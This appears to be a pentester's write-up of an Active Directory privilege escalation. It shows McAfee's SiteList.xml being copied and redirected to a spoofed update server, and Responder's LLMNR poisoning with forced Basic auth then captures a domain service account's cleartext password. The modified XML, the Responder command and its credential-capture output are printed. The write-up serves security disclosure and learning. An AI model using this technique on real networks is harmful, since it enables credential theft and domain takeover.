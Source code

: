 
#### McAfee privileged SiteList.xml leads to Active Directory domain privilege escalation

#### 02/02/2015 UPDATE

According with [Intel Security response](https://kc.mcafee.com/corporate/index?page=content&id=KB86503) : this is not a security flaw in McAfee's product !

For best practices click [here](https://kc.mcafee.com/corporate/index?page=content&id=KB70999).

---

During an intern pentest, I came accross a nice way to privesc in an Active Directory domain.
I owned an employee's laptop with [**McAfee Virusscan Enterprise 8.8**](http://www.mcafee.com/us/products/virusscan-enterprise.aspx) installed and a low privilege account.

Mcafee has a feature to customize update servers and can connect to these servers via HTTP or SMB. (*C:\ProgramData\McAfee\Common Framework\*) **SiteList.xml** contains juicy informations like credentials, internal server names, ...

```
<?xml version="1.0" encoding="UTF-8"?>
<ns:SiteLists xmlns:ns="naSiteList" Type="Client">
<SiteList Default="1" Name="SomeGUID">

<HttpSite Type="fallback" Name="McAfeeHttp" Order="26" Enabled="1" Local="0" Server="update.nai.com:80">
<RelativePath>Products/CommonUpdater</RelativePath><UseAuth>0</UseAuth>
<UserName></UserName>
<Password Encrypted="1">XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX</Password>
</HttpSite>

<UNCSite Type="repository" Name="Paris" Order="13" Server="paris001" Enabled="1" Local="0">
<ShareName>Repository$</ShareName><RelativePath></RelativePath><UseLoggedonUserAccount>0</UseLoggedonUserAccount>
<DomainName>companydomain</DomainName>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</UNCSite>

<UNCSite Type="repository" Name="Tokyo" Order="18" Server="tokyo000" Enabled="1" Local="0">
<ShareName>Repository$</ShareName><RelativePath></RelativePath><UseLoggedonUserAccount>0</UseLoggedonUserAccount>
<DomainName>companydomain</DomainName>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</UNCSite>

</SiteList></ns:SiteLists>
```

Let's check which rights we got with **McAfeeService**.

```
PS C:\Users\TAirane> net user McAfeeService /domain
The request will be processed at a domain controller for domain companydomain. 

User name                     McAfeeService
Full Name                     McAfee ePO
Comment                       Service Account for ePO Replication
User's comment
Country/region code           000 (System Default)
Account active                Yes
Account expires               Never
Password last set             29/01/2007 16:03:12
Password expires              Never
Password changeable           29/01/2007 16:03:12
Password required             Yes
User may change password      Yes

Workstations allowed          All
Logon script
User profile
Home directory
Last logon                    29/01/2016 17:55:09

Logon hours allowed           All

Local Group Memberships       *All Repository*Repository
Global Group memberships      *Domain Services Account*Workstations Administrator
                              *Servers Administrator*Domain Users
                              
The command completed successfully. 
```

Unfortunately the AV used GUI password, I couldn't edit the file. Thus, I downloaded and installed McAfee on my Windows Virtual Machine and just copied/pasted the previous precious sesame in my own SiteList.xml.

At this time, I knew that It was close. I edited the file like I could force an HTTP connection to any random server that I could spoof using [**Responder**](https://github.com/SpiderLabs/Responder). Actually the SiteList.xml looks like this.

```
<?xml version="1.0" encoding="UTF-8"?>
<ns:SiteLists xmlns:ns="naSiteList" Type="Client">
<SiteList Default="1" Name="SomeGUID">

<HttpSite Type="fallback" Name="PWNED!" Order="26" Enabled="1" Local="0" Server="fuckingrandomserver:80">
<RelativePath>LICORNE</RelativePath><UseAuth>1</UseAuth>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</HttpSite>

</SiteList></ns:SiteLists>
```

I clicked to update McAfee Antivirus and [Responder enters the matrix](https://www.youtube.com/watch?v=NEuZgK669zY).

```
root@kali:~/Tools/responder# python Responder.py -I eth0 --basic
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 2.3

  Original work by Laurent Gaffie (lgaffie@trustwave.com)
  To kill this script hit CRTL-C
...
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [ON]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [ON]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [192.168.169.140]
    Challenge set              [1122334455667788]


[+] Listening for events...

[*] [LLMNR]  Poisoned answer sent to 192.168.169.141 for name fuckingrandomserver

[HTTP] Basic Client   : 192.168.169.141
[HTTP] Basic Username : McAfeeService
[HTTP] Basic Password : *\cool_its_a_strong_password/*
```

OMG, we got it ! Now, I can level up :) I can logon on any *Domain Controler* and access all workstations within the domain.

Mission accomplished !

![McAfee](img/McAfee.jpg)

[@tfairane](https://twitter.com/tfairane) Greetz [@Fr33ster](https://twitter.com/Fr33ster)
